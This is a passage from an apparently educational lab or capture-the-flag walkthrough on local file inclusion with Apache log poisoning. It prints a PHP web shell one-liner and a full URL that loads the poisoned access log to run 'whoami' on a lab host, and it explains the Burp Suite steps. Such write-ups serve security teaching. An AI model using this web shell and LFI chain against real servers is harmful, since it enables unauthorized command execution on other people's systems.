 📌 Code Explanation:
- `<?php ... ?>` is the PHP code.
- `system($_GET['cmd']);` will execute the shell command passed in via the query parameter named cmd.

### 🧫 2.8 Run Webshell via LFI to test the whoami command.
> After we've embedded the PHP code (<?php system($_GET['cmd']); ?>) has been added to the log.

The next goal is to test whether we can actually run system commands.

✅ How to invoke Webshell:

21. Paste the URL as follows:

```bash
http://10.10.85.123/?view=/var/log/apache2/access.log&ext=&cmd=whoami
```

Parameter explanation:
- `view=` → Use LFI to load the log file containing the embedded code.
- `ext=` → Return a blank value to prevent the system from automatically adding .php.
- `cmd=whoami` → Run the whoami command to see which user we're running with.

22. After pasting the URL and sending, you'll see that nothing is found in the response. You'll need to click Send again to get the results.

![log](images/14.png)

23. Why do I have to click Send twice?
> After we inject PHP code into access.log and attempt to load that file via LFI to execute a command like whoami,
the first time we press Send in Burp Suite (or load the URL through a browser),
the command output may not be visible because the log file hasn't been updated in real-time for that second.
